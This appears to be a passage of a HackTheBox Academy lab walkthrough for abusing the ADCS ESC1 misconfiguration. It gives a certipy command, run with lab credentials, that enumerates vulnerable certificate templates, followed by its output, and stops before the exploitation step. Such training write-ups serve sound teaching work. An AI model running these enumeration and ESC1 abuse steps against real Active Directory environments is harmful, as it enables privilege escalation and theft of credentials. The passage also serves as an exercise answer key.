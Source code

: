| Acronym | Meaning |
| --- | --- |
| STMIP | Spawned Target Machine IP Address |
| STMPO | Spawned Target Machine Port |
| PMVPN | Personal Machine with a Connection to the Academy's VPN |
| PWNIP | Pwnbox IP Address (or PMVPN IP Address) |
| PWNPO | Pwnbox Port (or PMVPN Port) |

# ESC1

## Question 1

### "Abuse the ESC1 misconfiguration and submit the Administrator's NT hash."

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the `ESC1` template suffers from the `ESC1` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : lab-LAB-DC-CA
    DNS Name                            : LAB-DC.lab.local
    Certificate Subject                 : CN=lab-LAB-DC-CA, DC=lab, DC=local
    Certificate Serial Number           : 16BD1CE8853DB8B5488A16757CA7C101
    Certificate Validity Start          : 2022-03-26 00:07:46+00:00
    Certificate Validity End            : 2027-03-26 00:17:46+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Enabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
<SNIP>
  4
    Template Name                       : ESC1
    Display Name                        : ESC1
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : True
```